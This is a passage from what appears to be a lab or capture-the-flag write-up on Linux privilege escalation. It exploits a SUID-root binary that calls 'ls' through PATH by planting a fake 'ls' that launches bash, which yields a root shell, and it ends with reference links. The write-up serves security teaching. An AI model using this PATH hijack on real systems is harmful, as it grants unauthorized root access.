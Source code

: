 There will be an executable with `suid` permission set to `root` user.
{% capture code %}{% raw %}-rwsr-xr-x 1 root root 8392 Jun  4  2019 ./script{% endraw %}{% endcapture %} {% include code.html code=code %}

Upon trying to run the file, `./script`, it can be guessed that the binary is running `ls` command. The output of both `./script` and `ls` provides same output.
{% capture code %}{% raw %}Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos{% endraw %}{% endcapture %} {% include code.html code=code %}

The same can also be validated by using `strings script`, and also to see if the binary is invoked using full path, or `$PATH` variable is being used.

If the binary does not use full command path, the `$PATH` variable can be exploited.
{% capture code %}{% raw %}cd /tmp
echo "/bin/bash" >ls
chmod +x ls
export PATH=/tmp:$PATH{% endraw %}{% endcapture %} {% include code.html code=code %}

When the binary is executed, `./script`, it now gives a `privilege shell`.
{% capture code %}{% raw %}Welcome to Linux Lite 4.4 user5

Tuesday 20 April 2021, 06:47:28
Memory Usage: 338/1991MB (16.98%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link){% endraw %}{% endcapture %} {% include code.html code=code %}

To reset the `$PATH` variable, use the following command.
{% capture code %}{% raw %}export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 10 - Expanding Your Knowledge

Use these links as references.
- [Linux Privilege Escalation Reference 1](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md){:target="_blank"}
- [Linux Privilege Escalation Reference 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md){:target="_blank"}
- [Linux Privilege Escalation Reference 3](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html){:target="_blank"}
- [Linux Privilege Escalation Reference 4](https://payatu.com/guide-linux-privilege-escalation){:target="_blank"}

